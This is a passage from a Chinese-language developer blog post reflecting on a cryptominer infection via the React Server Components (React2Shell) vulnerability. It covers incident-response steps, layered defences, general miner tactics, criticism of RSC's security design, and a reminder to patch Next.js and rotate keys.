在追求开发效率的同时，不能忽视安全性。React Server Components 是一个很好的技术，但它违背了后端开发的一些基本原则。

### 建立安全响应流程

这次事件让我意识到，需要建立完善的安全响应流程：

1. **检测**：如何快速发现安全事件
   - 监控日志异常
   - 监控系统资源使用
   - 使用自动化工具检测

2. **响应**：发现后的处理步骤
   - 立即隔离受感染的系统
   - 收集攻击证据
   - 分析攻击影响

3. **恢复**：如何快速恢复服务
   - 修复漏洞
   - 清理恶意文件
   - 恢复系统功能

4. **复盘**：事后分析和改进
   - 分析攻击手法
   - 评估安全防护措施
   - 改进安全流程

我现在已经建立了一个简单的安全响应 checklist，放在我的笔记里。虽然希望永远用不上，但有了它，至少知道该做什么。

### 多层防护

单一的安全措施是不够的，需要多层防护：

- **网络层**：防火墙、DDoS 防护、网络隔离
- **应用层**：输入验证、身份认证、授权、速率限制
- **系统层**：文件权限、进程隔离、最小权限原则
- **监控层**：日志、告警、审计、入侵检测

即使某一层防护失效，其他层仍然可以提供保护。比如，即使攻击者成功执行了命令，macOS 的权限保护也阻止了大部分文件读取操作。

### 了解攻击者的手法

通过查阅资料和对比其他案例，我了解到挖矿木马的一些常见手法：

1. **快速响应**：攻击者会在漏洞公布后几天内开始大规模攻击
2. **自动化工具**：使用自动化工具扫描和攻击，针对不同系统使用不同的攻击脚本
3. **持久化机制**：通过多种方式实现持久化，确保挖矿程序持续运行
4. **资源独占**：清理其他挖矿程序，独占系统资源
5. **信息窃取**：在挖矿的同时，尝试窃取敏感信息，为后续攻击做准备

了解这些手法，可以帮助我们更好地防护和应对。

## 对行业的思考：当技术跑得太快

这次事件暴露了前端框架在向后端扩展时面临的安全挑战。

React Server Components 是一个很好的技术，它让前端开发者能够更容易地使用 SSR。但在这个过程中，React 团队可能忽略了后端开发的一些基本原则。

本质上，这种跨网络的通讯是 **Remote Procedure Call (RPC)** 框架，不是什么新鲜事物。它的安全机制早就有了成熟的设计准则，不管是早年的 SOAP 还是现在最流行的 gRPC，都遵守这些基本准则：
- Schema 的设计和 explicit 定义
- 防止边界混淆的措施
- 输入验证和类型检查
- 身份认证和授权

然而 React 团队没有遵循这些准则。从整个 RSC 的设计来看，你甚至可以说，他们是把前端圈子的"所见即所得"作风带来了后端。

这不是 React 团队第一次犯这种错误。在今年年初，Next.js 就出现过 9.1 分的严重漏洞（[CVE-2025-29927](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass)，[中间件权限绕过漏洞](https://www.cnblogs.com/CVE-Lemon/p/18797265)）。我当时就说过，这些"勾当"的背后，鬼知道还有多少致命的漏洞。

现在看来，我的担心是对的。

### 技术债务的代价

为了快速推广新技术，React 团队可能忽略了安全设计。这种"先上线，后修复"的做法，虽然能快速占领市场，但会留下巨大的技术债务。

当漏洞被发现时，影响范围已经非常广泛。根据 AWS 安全博客的报道，大量网络威胁组织正在快速利用 React2Shell 漏洞进行攻击。这意味着，这个漏洞已经被大规模利用。

### 开发者的责任

作为开发者，我们需要：
- **保持警惕**：不要盲目相信新技术的安全性
- **深入理解**：理解技术的底层原理，而不只是会使用
- **安全优先**：在功能和安全之间，优先选择安全
- **持续学习**：安全威胁在不断演变，需要持续学习

## 结语：希望这是最后一次

这次被攻击的经历虽然惊险，但也让我学到了很多。从技术角度，我深入了解了 React Server Components 的安全缺陷；从实践角度，我建立了完整的安全响应流程；从心态角度，我更加重视安全在开发中的重要性。

希望这篇文章能帮助其他开发者：

1. **理解漏洞原理**：知道为什么这个漏洞这么严重，以及如何防护
2. **识别攻击行为**：知道如何识别和应对类似攻击，包括挖矿木马的特征和排查方法
3. **加强安全防护**：建立完善的安全防护体系，包括多层防护和持续监控

最后，再次提醒所有使用 Next.js 和 React Server Components 的开发者：

**请立即更新到最新版本！**

这是真实的安全威胁。攻击者已经在利用这个漏洞进行大规模攻击，你的服务器可能就是下一个目标。

根据 Next.js 官方公告，如果应用在 12 月 4 日下午 1:00 PT 之前在线且未打补丁，强烈建议轮换所有密钥。

不要等到被攻击了才后悔。现在就去更新吧。

---

**相关资源：**

- [Next.js 安全公告](https://nextjs.org/blog/CVE-2025-66478) - 官方安全公告，包含修复版本和修复工具
- [CVE-2025-55182](https://www.cve.org/CVERecord?id=CVE-2025-55182) - CVE 官方记录
- [React Server Components 文档](https://react.dev/reference/rsc/server-components)
- [CSDN：XMR 挖矿木马应急响应案例](https://blog.csdn.net/qq_45170890/article/details/134195757) - 实战应急响应案例
- [FreeBuf：JavaXminer 挖矿木马分析](https://www.freebuf.com/articles/307220.html) - 挖矿木马家族分析


